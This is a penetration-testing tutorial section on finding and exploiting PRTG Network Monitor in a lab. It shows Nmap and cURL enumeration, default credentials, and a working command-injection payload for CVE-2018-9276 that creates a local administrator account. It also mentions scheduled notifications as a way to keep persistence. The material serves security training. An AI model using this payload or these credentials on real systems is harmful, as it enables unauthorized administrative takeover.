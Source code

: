 # PRTG Network Monitor

[PRTG Network Monitor](https://www.paessler.com/prtg) is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more. The first version of PRTG was released in 2003. In 2015 a free version of PRTG was released, restricted to 100 sensors that can be used to monitor up to 20 hosts. It works with an autodiscovery mode to scan areas of a network and create a device list. Once this list is created, it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more. Devices can also communicate with the tool via a REST API. The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS. A few interesting data points about PRTG:

* According to the company, it is used by 300,000 users worldwide
* The company that makes the tool, Paessler, has been creating monitoring solutions since 1997
* Some organizations that use PRTG to monitor their networks include the Naples International Airport, Virginia Tech, 7-Eleven, and [more](https://www.paessler.com/company/casestudies)

Over the years, PRTG has suffered from [26 vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html) that were assigned CVEs. Of all of these, only four have easy-to-find public exploit PoCs, two cross-site scripting (XSS), one Denial of Service, and one authenticated command injection vulnerability which we will cover in this section. It is rare to see PRTG exposed externally, but we have often come across PRTG during internal penetration tests. The HTB weekly release box [Netmon](https://0xdf.gitlab.io/2019/06/29/htb-netmon.html) showcases PRTG.

***

## Discovery/Footprinting/Enumeration

We can quickly discover PRTG from an Nmap scan. It can typically be found on common web ports such as 80, 443, or 8080. It is possible to change the web interface port in the Setup section when logged in as an admin.

```shell-session
$ sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

From the Nmap scan above, we can see the service `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

PRTG also shows up in the EyeWitness scan we performed earlier. Here we can see that EyeWitness lists the default credentials `prtgadmin:prtgadmin`. They are typically pre-filled on the login page, and we often find them unchanged. Vulnerability scanners such as Nessus also have [plugins](https://www.tenable.com/plugins/nessus/51874) that detect the presence of PRTG.

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/index.htm</p></figcaption></figure>

From the enumeration we performed so far, it seems to be PRTG version `17.3.33.2830` and is likely vulnerable to [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39. Based on the version reported by Nmap, we can assume that we are dealing with a vulnerable version. Using `cURL` we can see that the version number is indeed `17.3.33.283`.

```shell-session
$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

Our first attempt to log in with the default credentials fails, but a few tries later, we are in with `prtgadmin:Password123`.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/welcome.htm</p></figcaption></figure>

***

## Leveraging Known Vulnerabilities

Once logged in, we can explore a bit, but we know that this is likely vulnerable to a command injection flaw so let's get right to it. This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it. When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Next, click on `Add new notification`.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/editnotification.htm?id=new&#x26;tabid=1</p></figcaption></figure>

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`. During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

Since this is a blind command execution, we won't get any feedback, so we'd have to either check our listener for a connection back or, in our case, check to see if we can authenticate to the host as a local admin. We can use `CrackMapExec` to confirm local admin access. We could also try to RDP to the box, access over WinRM, or use a tool such as [evil-winrm](https://github.com/Hackplayers/evil-winrm) or something from the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit such as `wmiexec.py` or `psexec.py`.

```shell-session
$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

And we confirm local admin access on the target! Work through the example and replicate all of the steps on your own against the target system. Challenge yourself to also leverage the command injection vulnerability to obtain a reverse shell connection from the target.

***

## Onwards

Now that we've covered Splunk and PRTG let's move on and discuss some common customer service management and configuration management tools and see how we can abuse them during our engagements.
